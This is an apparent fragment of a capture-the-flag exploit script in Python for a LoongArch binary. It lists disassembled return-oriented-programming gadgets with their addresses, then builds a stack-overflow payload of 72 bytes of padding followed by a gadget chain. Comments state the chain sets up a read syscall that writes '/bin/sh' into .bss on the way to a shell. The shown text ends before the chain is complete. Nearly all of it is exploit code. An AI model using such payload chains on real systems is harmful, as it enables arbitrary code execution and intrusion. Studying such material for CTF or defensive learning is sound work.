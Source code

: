 ```python
   12000c044:   28c0207a        ld.d            $s3, $sp, 8(0x8)
   12000c048:   02c0c063        addi.d          $sp, $sp, 48(0x30)
'''
gadget0 = 0x12000c034

'''12000b090:   28c1a061        ld.d            $ra, $sp, 104(0x68)
   12000b094:   001502e4        move            $a0, $s0
   12000b098:   28c18076        ld.d            $fp, $sp, 96(0x60)
   12000b09c:   28c16077        ld.d            $s0, $sp, 88(0x58)
   12000b0a0:   28c14078        ld.d            $s1, $sp, 80(0x50)
   12000b0a4:   28c12079        ld.d            $s2, $sp, 72(0x48)
   12000b0a8:   28c1007a        ld.d            $s3, $sp, 64(0x40)
   12000b0ac:   28c0e07b        ld.d            $s4, $sp, 56(0x38)
   12000b0b0:   28c0c07c        ld.d            $s5, $sp, 48(0x30)
   12000b0b4:   28c0a07d        ld.d            $s6, $sp, 40(0x28)
   12000b0b8:   02c1c063        addi.d          $sp, $sp, 112(0x70)
   12000b0bc:   4c000020        jirl            $zero, $ra, 0
'''
gadget1 = 0x12000b090

'''
   120048098:   0015008d        move            $t1, $a0
   12004809c:   28c12061        ld.d            $ra, $sp, 72(0x48)
   1200480a0:   28c02064        ld.d            $a0, $sp, 8(0x8)
   1200480a4:   28c04065        ld.d            $a1, $sp, 16(0x10)
   1200480a8:   28c06066        ld.d            $a2, $sp, 24(0x18)
   1200480ac:   28c08067        ld.d            $a3, $sp, 32(0x20)
   1200480b0:   28c0a068        ld.d            $a4, $sp, 40(0x28)
   1200480b4:   28c0c069        ld.d            $a5, $sp, 48(0x30)
   1200480b8:   28c0e06a        ld.d            $a6, $sp, 56(0x38)
   1200480bc:   28c1006b        ld.d            $a7, $sp, 64(0x40)
   1200480c0:   2b814060        fld.d           $fa0, $sp, 80(0x50)
   1200480c4:   2b816061        fld.d           $fa1, $sp, 88(0x58)
   1200480c8:   2b818062        fld.d           $fa2, $sp, 96(0x60)
   1200480cc:   2b81a063        fld.d           $fa3, $sp, 104(0x68)
   1200480d0:   2b81c064        fld.d           $fa4, $sp, 112(0x70)
   1200480d4:   2b81e065        fld.d           $fa5, $sp, 120(0x78)
   1200480d8:   2b820066        fld.d           $fa6, $sp, 128(0x80)
   1200480dc:   2b822067        fld.d           $fa7, $sp, 136(0x88)
   1200480e0:   02c24063        addi.d          $sp, $sp, 144(0x90)
   1200480e4:   4c0001a0        jirl            $zero, $t1, 0
'''
gadget2 = 0x120048098

'''
22555:   120013e30:	002b0000 	syscall     	0x0
22556-   120013e34:	4c000020 	jirl        	$zero, $ra, 0
'''
syscall = 0x120013e30

stack = 0x40008029a0
payload = 'A'*72
payload += p64(gadget0)
# put syscall address in $s0
payload += flat({
  32: p64(syscall),
  40: p64(gadget1),
})
# put $s0 in $a0
payload += flat({
  104: p64(gadget2),
})
# call syscall read with correct registers, we will store '/bin/sh' in .bss
```